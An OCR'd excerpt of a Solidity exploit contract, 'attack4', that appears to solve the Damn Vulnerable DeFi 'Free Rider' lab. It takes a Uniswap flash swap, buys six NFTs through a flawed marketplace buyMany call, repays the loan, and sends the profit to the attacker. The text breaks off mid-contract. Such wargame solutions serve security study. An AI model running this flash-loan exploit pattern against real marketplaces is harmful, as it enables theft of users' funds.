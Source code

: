 ```
    function buyMany(uint256[] calldata tokenIds) external payable;
    function token() external returns (IERC721);
}


interface IERC721 {
    function setApprovalForAll(address operator, bool approved) external;
    function safeTransferFrom(address from, address to, uint256 tokenId) external;
}

interface IERC721Receiver {
    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data) external returns (bytes4);
}
interface IWETH {
    function transfer(address recipient, uint256 amount) external returns (bool);
    function deposit() external payable;
    function withdraw(uint256 amount) external;
}

contract attack4{
IUniswapV2Pair immutable  uniswapPair;
address immutable attacker;
IFreeRiderNFTMarketplace immutable nftplace;
IERC721 immutable nft;
address immutable buyer;
IWETH immutable weth;
constructor(IUniswapV2Pair _uniswapPair,IFreeRiderNFTMarketplace _nftplace,IWETH _weth,address _buyer){
    attacker=msg.sender;
    uniswapPair=_uniswapPair;
    nftplace=_nftplace;
    weth=_weth;
    nft=_nftplace.token();
    buyer=_buyer;
}

 function flashSwap()external{
   uniswapPair.swap(15 ether,0,address(this),hex"00");
 }
 function uniswapV2Call(address, uint, uint, bytes calldata)public {
    weth.withdraw(15 ether);
    uint256[] memory tokenIds= new uint256[](6);
    tokenIds[0]=0;
    tokenIds[1]=1;
    tokenIds[2]=2;
    tokenIds[3]=3;
    tokenIds[4]=4;
    tokenIds[5]=5;
 nftplace.buyMany{value:15 ether}(tokenIds);

for(uint8 tokenId=0;tokenId<6;tokenId++){
    nft.safeTransferFrom(address(this),buyer,tokenId);
}
//计算还钱金额
uint256 fee=((15 ether*3)/uint256(997))+1;
weth.deposit{value:15 ether+fee}();
weth.transfer(address(uniswapPair), 15 ether+fee);

payable(address(attacker)).transfer(address(this).balance);
 }
fallback() external payable{

```